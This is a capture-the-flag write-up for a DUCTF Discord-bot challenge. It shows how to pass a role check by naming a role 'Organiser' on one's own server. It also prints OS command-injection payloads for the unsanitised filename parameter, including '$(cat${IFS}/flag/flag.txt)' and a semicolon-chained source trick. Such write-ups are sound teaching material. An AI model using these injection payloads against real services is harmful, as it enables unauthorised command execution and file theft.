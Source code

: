 # Slash Flag Writeup

1. Find the storage bot on the DUCTF discord server.
2. The about me section has the github link for the storage bot
3. Reading the code, you will find that only users with the role with the name "Organiser" can execute commands.

```js
// /events/interactionCreate.js - line 19
const isOrganiser = roles.some((a) => {
    return a === "Organiser";
});

if (!isOrganiser) {
    return await interaction.reply("You're not an organiser so you can't use this bot.");
}
```

4. Attempting to add the bot to your own server will be successful meaning that it is a public bot. This will allow us to create a role with the name "Organiser" on our own server.
5. Now that we can execute slash commands on the bot you will find the source code for these commands on the github repository.
6. Reading the code, you will notice the "create" command is vulnerable to OS command injection via the "filename" parameter. ~~This is because parameters are usually sanitised with the quote function from the "shell-quote" library however, the "filename" parameter is not.~~ I was proved wrong. Well done! `"$(cat${IFS}/flag/flag.txt)"` avoids spaces.

```js
// /commands/create.js - Line 27
const filename = interaction.options.getString("filename").toUpperCase();
const text = quote(interaction.options.getString("text").split(" "));

if (text.length > FILE_LIMIT) {
    return await interaction.reply("Sorry your text is too big aka I don't have enough money to give to Google :)");
}

try {
    await runCommand(`echo '${text}' > ${filename}`, interaction.guildId);
```

7. The fact that filename is turned to all uppercase makes this challenge a bit tricky. OS commands are case-sensitive meaning that our payload will always be uppercase. What we can do instead is to write a script in a file to run whatever commands we want and source the script, redirecting the output to another file to read.

```
/create "A" "cat /flag/flag.txt"
/create "B;. ./A > C" "whatever"
/open "C"
```
8. This should output the flag as the contents of the "C" file.
